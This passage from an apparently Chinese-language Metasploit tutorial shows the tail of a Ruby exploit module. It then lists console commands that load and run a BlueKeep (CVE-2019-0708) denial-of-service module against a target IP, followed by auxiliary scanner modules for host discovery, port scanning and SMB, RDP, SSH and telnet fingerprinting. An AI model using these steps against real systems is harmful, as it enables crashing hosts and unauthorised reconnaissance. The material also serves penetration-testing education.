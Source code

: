 ```rb
    sock.put(attack_buf)
    handler
    disconnect
  end
end
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest#
```
### 然后启动msf
输入你的路径然后摁`tab`就行了(不能tab就是有猫病)
```
use exploit/jojo/xxxxx
```


输入
```
reload_all              \\重新加载所有模块
```

然后启动模块开始攻击
```
use exploit/jojo/cve_2019_0708_bluekeep_dos 

info

set rhosts 192.168.100.86(目标IP)

set verbose true 

run
```









# 实战

## 信息收集

发现目标网段的存活主机:

我们可以利用auxiliary这个模块来获取目标网端的信息，包括端口开放情况、主机存活情况。
```
auxiliary/scanner/discovery/arp_sweep

auxiliary/scancer/smb/smb_version 存活的445主机

auxiliary/scanner/portscan/syn  端口扫描

auxiliary/scanner/telnet/telnet_version telent服务扫描

auxiliary/scanner/rdp/rdp_scanner 远程桌面服务扫描

auxiliary/scanner/ssh/ssh_version ssh主机扫描

```
